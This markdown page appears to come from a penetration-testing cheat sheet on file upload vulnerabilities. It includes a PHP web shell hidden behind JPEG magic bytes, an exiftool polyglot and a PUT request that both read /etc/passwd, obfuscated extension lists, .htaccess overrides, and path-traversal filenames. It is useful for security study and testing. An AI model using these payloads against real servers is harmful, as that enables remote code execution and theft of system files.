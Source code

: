```yaml
---
title: "File upload vulnerabilities"
weight: 9
description: "Understand how to exploit file upload functionalities through flawed validation, misconfigurations, race conditions, and other advanced techniques."
---
```


# File upload vulnerabilities

Improper handling of file uploads is a common security weakness in web applications. If not carefully validated, uploaded files can lead to remote code execution (RCE), cross-site scripting (XSS), and other types of attacks.

{{< hint style=warning >}}
**Warning**: By default, servers do not execute uploaded files unless they are explicitly configured to do so.
{{< /hint >}}

---

## Flawed File Validation

Poor validation allows attackers to bypass filters and upload dangerous files.

### Content-Type Bypass

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### Dangerous File Extensions

Some file extensions are known to trigger execution on the server. Even if certain types are blacklisted, you can still try alternate or obfuscated extensions:

```sh
# Common dangerous extensions
.php
.php3
.php4
.php5
.phtml
.phar

# Obfuscation examples
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### File Content Validation

Even if the extension is valid, some servers validate the file content using magic numbers (specific byte patterns at the start of files).

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

You can still inject malicious code using a valid header:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

### Polyglot Files

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass restrictions) but when you open the image it's executed as php script.

---

## Overriding Server Configuration

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers → `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

---

## PUT Method Exploitation

Some servers support the HTTP `PUT` method for uploading files directly.

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/etc/passwd'); ?>
```

---

## Path Traversal + File Upload

If execution is blocked in the upload directory but the web server use the filename field in the request to determine the file’s name and location, you can try to escape using path traversal in the `filename` field:

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

{{< hint style=tips >}}
**Tip**: If directory traversal is filtered, try encoding it: `filename="..%2fexploit.php"`.
{{< /hint >}}

---

## Upload Without RCE

Even without remote code execution, you can still cause harm:

- Upload `.html` or `.svg` files with embedded JavaScript → **Stored XSS**
- Upload XML files like `.docx`, `.xlsx` → Possible **XXE injection**

---

## Race Conditions in File Uploads

In some setups, files are uploaded and scanned (e.g., with antivirus) before being permanently stored. During this short window, the file may exist temporarily on disk and you could potentially execute it.

- Race conditions
- Difficult to detect

### Exploiting URL-Based Uploads

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.